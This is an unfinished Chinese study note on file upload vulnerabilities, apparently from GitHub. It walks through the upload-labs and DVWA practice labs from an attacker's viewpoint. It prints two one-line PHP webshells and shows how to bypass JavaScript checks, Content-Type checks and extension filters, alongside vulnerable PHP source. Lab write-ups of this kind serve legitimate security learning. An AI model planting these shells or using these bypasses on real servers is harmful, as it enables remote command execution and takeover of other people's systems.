



文件上传漏洞
============

> 文档还需要不断的修改和补充

[TOC]

> 整篇文章从攻击者的角度来思考。


个人思考
--------

光知道攻击手段是没有用的，因为已知的攻击手段都已知，那么就会有相应的防护手段，这样的能力只能使自己永远成为一个脚本小子，去攻击一些没有修复的已知漏洞，不能走在前端漏洞的发布者，那么就会失去自己的竞争力，不过你要首先能够成为脚本小子，理解攻击的原理，才能走到下一步。

重要的是在学习中如何取发现这个漏洞？

那么应该如何做到，又如何提高这种能力呢？？？

首先还是要知道客户端与服务器端中交互的入口，知道有哪些入口，就知道了攻击的入口。

这样我们在分析漏洞，或者寻找一个新的漏洞就找到了入手点，

哪么接下来应该如何取挖掘这样一个新的漏洞，需要掌握哪些关键信息？

一般一个应用来说，分为两层：一层是第三方框架，一层是开发人员根据业务需求实现的代码。

第三方框架可以抽象为，代码基础理念(一些可以已经被认知为安全的代码)

那么就可以得出我们需要掌握的信息：

- 开发人员的开发习惯，在什么方面会出现遗漏？

  比如：js就是开发人员不关注数据在前端页面的显示，就容易导致存储性的xss攻击。

- 本身的代码基础有逻辑漏洞

  比如：宽字节过滤，我们所思考的是如何去掉反斜杠，正常操作是不行的，需要往他的原理进行深入思考，考虑不到字符编码的不兼容的带来对反斜杠进行合并的问题。

如何提高？

- 开发人员的代码习惯，需要不断进行代码升级，进行记录分析
- 本身的代码逻辑，需要对各种**第三方应用和各种语言标准以及其他规定**进行分析，从安全的角度不断的反思。

至于分析的角度和反思的角度还需要在实战中不断的磨合和总结，后面补充。


几句话介绍
----------

文件上传漏洞就是获取shell的一步，需要上传一个被攻击的服务器可以解析执行的文件，通过这个文件（一句话木马）来控制服务器。

通常可以上传文件的入口有：个人信息设置中的头像上传，文章编辑中的图片附件，以及评论中的图片上传等

这里提供PHP的shell文件，其他的可以查阅[最新webshell大合集](https://blog.csdn.net/mypc2010/article/details/77776870)  

```php
<?php passthru($_GET['cmd']); ?>
```

和可以控制的shell的代码

```php
<?php @eval($_POST['cmd']); ?>
```


测试环境
--------

这里主要是用的环境是：[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 和[upload-labs](https://github.com/c0ny1/upload-labs) 

upload-labs的搭建：vm + windows server 2003 + phpstudy + upload-labs源码

附上一篇：[Upload-labs通关手册](https://xz.aliyun.com/t/2435) 


遇到的问题
----------

拦截分很多块，可以像一下文件传到服务器中的过程：

```c
文件 --> 浏览器 ---> http协议传输 ---> 中间件 ---> 应用服务器
```

这针对开发人员会存在怎样的拦截，会出现什么样的漏洞进行攻击。

### 文件类型的拦截


#### js拦截

只需要被js，屏蔽掉就行。

##### 案例

upload-libs pass-01

- 首先先上传一个shell.php 文件，这里一开始会报错，要求建立一个上传的文件夹：`../upload/`

  

  可以很明显的看到，这个是js弹框的检测，只需要js检测关掉就行。

- **屏蔽js**，在浏览器设置中进行网页的设置就行了，以Google浏览器为例：

  ```c
  setting --> advance --> site settings --> javascript --> add block --> 刷新一下流浪器
  ```

  再尝试一下

  

  发现出现一个错误，图片有但解析不出来，怀疑已经植入后面成功，进行访问验证：

  http://localhost:8001/upload-labs/upload/shell.php?cmd=dir

  可以在网页中看到信息

  

  


#### http文件类型

主要是http中的一个字段会进行限制：**content-type**

服务器根据content-type这个字段进行限制，可以利用brup suit进行拦截http包，进行参数的修改来达到一个冒充的效果，其中：

- 图片：`Content-Type: image/jpeg`
- php：`Content-Type: application/octet-stream`


##### 案例

upload-libs pass-02

- 不管如何先把js屏蔽掉，再上传一个文件试试:

  

  这里可以很明显的看到，服务器返回了提示，说明一定又服务器进行了拦截。

- 先用**brup suit抓包**看一下，是不是http包字段的设置来检测拦截

  

  这里明显可以发现，`Content-Type: application/octet-stream`，进行修改为`Content-Type: image/jpeg`，先进行上传操作试试看，发现成功。

  

##### 源码分析

```php
...
// 这里只是单纯的进行了，http包的类型鉴定，其实可以利用中间人伪装
if (($_FILES['upload_file']['type'] == 'image/jpeg') || 
     ($_FILES['upload_file']['type'] == 'image/png') || 
     ($_FILES['upload_file']['type'] == 'image/gif')) {
     
     if (move_uploaded_file($_FILES['upload_file']['tmp_name'],
                            UPLOAD_ADDR . '/' . $_FILES['upload_file']['name'])) {
         $img_path = $UPLOAD_ADDR . $_FILES['upload_file']['name'];
         $is_upload = true;
     }
} else {
    $msg = '文件类型不正确，请重新上传！';
}
```


#### 服务器-后缀检测

主要是服务限制了对一些可以执行文件的上传，根据后缀名来进行检测。

问题是如何可以绕过？

**有这些后缀名的文件就一定不能被解析了**，这条路堵死了。

接下来应该怎么想？

思考：不是这个后缀的是否存在可以解析的漏洞？

- `.php.oo` 这样文件是否存在可以解析。
- 是PHP内容，但后缀是.png 的文件，是否可以被解析为PHP。

有了这些思考，首先要解决的就是服务器到时是谁在解析文件？

百度发现Apache存在这样的漏洞，问题是在哪看，在哪分析？

看后面的源码分析。


##### 案例

upload-libs pass-03

- 首先屏蔽js，上传一个shell.php 文件试试

  

  很明显的提示，特殊文件后缀被限制，尝试改一下后缀：`shell.php.oo` 

  发现上传成功，我们输入路径执行shell命令试试：

  http://localhost:8001/upload-labs/upload/shell.php.oo?cmd=dir

  发现并没有执行，而是文件内容反馈回来了

  

  那么黑客如何产生攻击？

  

- 


#### 源码分析


### 文件内容检测


解决方案
--------


